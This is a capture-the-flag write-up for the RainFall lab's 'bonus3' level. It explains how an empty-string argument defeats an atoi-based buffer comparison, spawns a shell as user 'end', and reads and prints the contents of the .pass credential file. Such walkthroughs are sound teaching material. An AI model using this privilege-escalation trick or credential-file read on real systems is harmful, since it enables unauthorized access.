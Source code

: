 # bonus03

We can see that the program takes one parameter:

```bash
bonus3@RainFall:~$ ./bonus3 
bonus3@RainFall:~$ ./bonus3 dsa

bonus3@RainFall:~$ ./bonus3 dsadas

bonus3@RainFall:~$
```

By looking at the code, we can see that it open a file ("/home/user/end/.pass") and check if it's successful. This is why we can't debug the program directly in VM with `gdb`. It also checks if number of parameters is equal to 2.

Then, it performs two `fread` on the open file. Between them, it executes `atoi` on the first parameter, and use it as index in the local buffer to put a 0 as value.

Finally, it compare the local buffer with the first parameter.

By passing 0, the program doesn't execute a shell:

```bash
bonus3@RainFall:~$ ./bonus3 0

bonus3@RainFall:~$ ./bonus3 $(python -c "print '\x00'")
```

In an external machine, we can see that passing `$(python -c "print '\x00'")` is interpreted as two arguments:

```bash
gdb-peda$ r $(python -c "print '\x00'")
0x0804853d in main ()
gdb-peda$ x/wx $ebp+0x8
0xffffd110:     0x00000003
```

We can here simply pass an empty string to run a shell. It will be interpreted as 0 for `atoi`, replacing the first byte of the local buffer by a 0. Both strings will be equals:

```bash
bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$ cd /home/user/end 
$ cat .pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```
